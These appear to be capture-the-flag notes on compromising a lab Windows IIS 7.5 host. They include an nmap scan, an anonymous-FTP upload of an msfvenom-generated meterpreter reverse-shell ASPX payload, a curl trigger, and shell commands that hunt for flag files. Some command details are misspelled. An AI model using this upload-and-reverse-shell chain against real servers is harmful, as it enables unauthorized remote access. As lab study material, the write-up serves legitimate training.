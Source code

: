 Possible exploits:
- https://github.com/subonzyx/notes/blob/master/Tutorials/CVE-2010-3972.md


```
# Nmap 7.93 scan initiated Mon Jul 17 19:00:17 2023 as: nmap -p 21,80 -sC -sV -T4 -oA devel-ports 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up (0.051s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 17 19:00:30 2023 -- 1 IP address (1 host up) scanned in 13.07 seconds
```

http://10.10.10.5/aspnet_client/

Connect to FTP with anonymous and test `put`

Response from http:
Server: Microsoft-IIS/7.5

Which is aspx based.

```
msfvenom -p windows/meterpeter_reverse_tcp -f aspx -o volt.aspx LHOSTS= PORT=
```

- Start msfconsole and the same payload for receive
- Upload to FTP 
- Trigger with curl <IP>/volt.aspx



After successful connection -> shell

```
whoami
cd\
dir '*user.txt' /s
dir '*root.txt' /s
```
